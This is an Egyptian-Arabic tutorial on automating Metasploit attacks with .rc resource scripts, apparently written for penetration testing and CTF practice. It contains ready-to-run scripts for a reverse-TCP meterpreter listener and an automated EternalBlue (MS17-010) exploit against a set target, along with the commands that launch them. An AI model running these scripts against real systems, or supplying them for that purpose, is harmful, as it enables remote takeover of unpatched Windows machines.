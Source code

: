 ## **🔥 أتمتة هجمات Metasploit باستخدام Resource Scripts 🔥**

### **🔹 يعني إيه Resource Scripts في Metasploit؟**

`Resource Scripts` هي ملفات `.rc` بتحتوي على مجموعة أوامر `Metasploit` متسلسلة، بحيث تقدر تشغلها كلها مرة واحدة بدل ما تكتب كل أمر يدويًا! 🎯

✅ **ليه نستخدمها؟**

- بتوفر **وقت ومجهود** لأنك مش هتحتاج تكتب نفس الأوامر كل مرة.
- بتساعدك في **تشغيل الهجمات المعقدة بضغطة زر واحدة**.
- مثالية جدًا لو بتعمل **اختبار اختراق متكرر أو CTF**.

🎯 **💬 الخلاصة بالمصري:**  
"بدل ما تقعد تكتب كل الأوامر كل مرة، حطها في ملف `.rc` وشغلها مرة واحدة!" 😆

---

## **🟢 1. إزاي تكتب ملف Resource Script؟**

ببساطة، افتح أي محرر نصوص (زي `nano` أو `vim` أو حتى `Notepad` في ويندوز)، واكتب فيه أوامر Metasploit اللي عايز تشغلها.

📌 **مثال لملف Resource Script (`attack.rc`) يقوم بالآتي:**

1. تشغيل `Metasploit`
2. استخدام `exploit/multi/handler` لاستقبال الاتصال العكسي
3. تعيين الـ payload
4. تشغيل الجلسة تلقائيًا

```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.1.10
set LPORT 4444
exploit -j
```

📌 **لحفظ الملف في لينكس:**

```bash
nano attack.rc
```

→ الصق الأوامر → اضغط `CTRL+X` ثم `Y` لحفظ الملف والخروج.

🎯 **💬 الخلاصة بالمصري:**  
"ملف الـ `.rc` هو زي ورقة الغش بتحفظ فيها كل أوامرك، وتشغلها كلها بضغطة واحدة!" 😆

---

## **🟢 2. تشغيل ملف Resource Script داخل Metasploit**

بعد ما تجهز الملف، تقدر تشغله جوه `Metasploit` باستخدام الأمر:

```bash
msfconsole -r attack.rc
```

أو بعد تشغيل `Metasploit`، استخدم:

```bash
resource attack.rc
```

🎯 **💬 الخلاصة بالمصري:**  
"بدل ما تكتب كل الأوامر يدوي، شغل الملف `.rc` وهيعمل كل حاجة لوحده!" 🤖🔥

---

## **🟢 3. إزاي تعمل Resource Script لهجوم كامل؟**

خلينا نقول إنك عايز تشغل هجوم **EternalBlue (MS17-010)** تلقائيًا على هدف معين.

📌 **اكتب ملف Resource Script (`eternalblue.rc`) كالتالي:**

```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.100
set LHOST 192.168.1.10
set PAYLOAD windows/meterpreter/reverse_tcp
exploit -j
```

📌 **شغّل الملف داخل Metasploit:**

```bash
msfconsole -r eternalblue.rc
```

🎯 **💬 الخلاصة بالمصري:**  
"اكتب أوامر الهجوم في ملف `.rc`، ولما تيجي تشغل الهجوم بعد كده، كل اللي عليك تعمله هو أمر واحد بس!" 🚀

---

## **🛠️ خطوات عملية لاستخدام Resource Scripts في Metasploit**

✅ **1. افتح محرر نصوص واكتب الأوامر اللي عايز تشغلها:**

```bash
nano attack.rc
```

✅ **2. أضف الأوامر داخل الملف، مثال:**

```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.100
set LHOST 192.168.1.10
set PAYLOAD windows/meterpreter/reverse_tcp
exploit -j
```

✅ **3. احفظ الملف (`CTRL+X` ثم `Y` في `nano`).**

✅ **4. شغل الملف داخل Metasploit:**

```bash
msfconsole -r attack.rc
```

🎯 **💬 الخلاصة النهائية بالمصري:**  
"Resource Scripts في Metasploit بتخليك تشغل أوامر كتير بضغطة زر، وده بيوفر وقت ومجهود، وبيسهل الأتمتة في الهجمات!" 🚀😎